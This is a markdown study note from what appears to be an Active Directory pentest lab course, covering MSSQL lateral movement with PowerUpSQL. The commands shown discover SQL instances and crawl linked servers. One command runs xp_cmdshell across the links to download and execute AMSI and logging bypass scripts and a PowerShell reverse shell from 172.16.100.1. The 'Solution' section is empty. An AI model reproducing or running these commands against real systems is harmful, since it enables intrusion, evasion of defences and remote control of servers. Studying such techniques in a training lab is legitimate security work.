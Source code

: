 
# **MSSQL Servers**



- MS SQL servers are generally deployed in plenty in a Windows domain.
- SQL Servers provide very good options for lateral movement as domain users can be mapped to database roles.
- For MSSQL and PowerShell hackery, lets use PowerUpSQL
https://github.com/NetSPI/PowerUpSQL



**_Examples_**


- Discovery (SPN Scanning)

```powershell
Get-SQLInstanceDomain
```

- Check Accessibility

```powershell
Get-SQLConnectionTestThreaded

Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Verbose
```


![](https://i.imgur.com/GvA1sd2.png)


- Gather Information

```powershell
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose
```


![](https://i.imgur.com/9SWwFqr.png)



> After running the above command and you see that the `ISSysadmin` option is set to **No**, as an attacker, you shouldn't loose interest because we can still extract information






# **MSSQL Servers - Database Links**


- A database link allows a SQL Server to access external data sources like other SQL Servers and OLE DB data sources.
- In case of database links between SQL servers, that is, linked SQL servers it is possible to execute stored procedures. 
- Database links work even across forest trusts.



![](https://i.imgur.com/A5hBH7R.png)



**_Examples_**


- Searching Database Links
- Look for links to remote servers

```powershell
Get-SQLServerLink -Instance dcorp-mssql -Verbose
```

OR

```powershell
select * from master..sysservers
```



![](https://i.imgur.com/sK1jStA.png)


> Data is accessible via the `DCORP-SQL1` link, this is what we want


- Enumerating Database Links


```powershell
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Verbose
```




![](https://i.imgur.com/xr7rwLQ.png)



- Executing Commands
- Use the `-QuertyTarget` parameter to run Query on a specific instance (without `-QueryTarget` the command tries to use `xp_cmdshell` on every link of the chain)


```powershell
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query "exec master..xp_cmdshell 'whoami'" -QueryTarget eu-sql
```



![](https://i.imgur.com/AhAmeLt.png)



- Gain reverse shell instead of RCE


```powershell
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query 'exec master..xp_cmdshell ''powershell -c "iex (iwr -UseBasicParsing http://172.16.100.1/sbloggingbypass.txt);iex (iwr -UseBasicParsing http://172.16.100.1/amsibypass.txt);iex (iwr -UseBasicParsing http://172.1 6.100.1/Invoke-PowerShellTcpEx.ps1)"''' -QueryTarget eu-sql
```


> Make sure to start your **HTTP FIle Server (HFS)** first and upload the file `sbloggingbypass.txt`, `amsibypass.txt` and `Invoke-PowerShellTcpEx.ps1` in other to host them




# **Learning Objective**


- Get a reverse shell on a SQL server in eurocorp forest by abusing database links from dcorp-mssql.


## **Solution**

**_Coming Soon_**


# **References**


- https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/abusing-ad-mssql
- https://www.powershellgallery.com/



